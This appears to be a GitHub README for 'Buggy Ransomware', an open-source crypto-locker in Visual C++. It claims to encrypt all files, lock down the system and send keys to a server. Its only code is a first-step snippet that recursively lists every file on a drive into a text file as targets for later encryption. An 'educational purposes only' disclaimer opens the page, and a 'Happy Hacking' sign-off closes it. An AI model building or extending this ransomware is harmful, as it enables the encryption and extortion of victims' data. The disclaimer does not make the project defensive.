 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logor.png" alt="logo">

# Buggy Ransomware

Buggy Ransomware is open source  Crypto-Locker. Buggy Ransomware is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.


## Step 1 (Fetch files & encrypt them)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>

using namespace std;

fstream data_file("data.txt", ios::out);

int main(int argc, char* argv[]) {
	boost::system::error_code dir_error;

	for (boost::filesystem::recursive_directory_iterator end, dir("d:\\", dir_error); dir != end; dir.increment(dir_error)) {
		if (dir_error.value()) {
			cerr << "Error accessing file: " << dir_error.message() << endl;
		}
		else {
			cout << dir->path() << endl;
			data_file << dir->path() << "\n";
		}
	}
	system("pause");
	return 0;
}
```

# Currently in Development....Happy Hacking:)
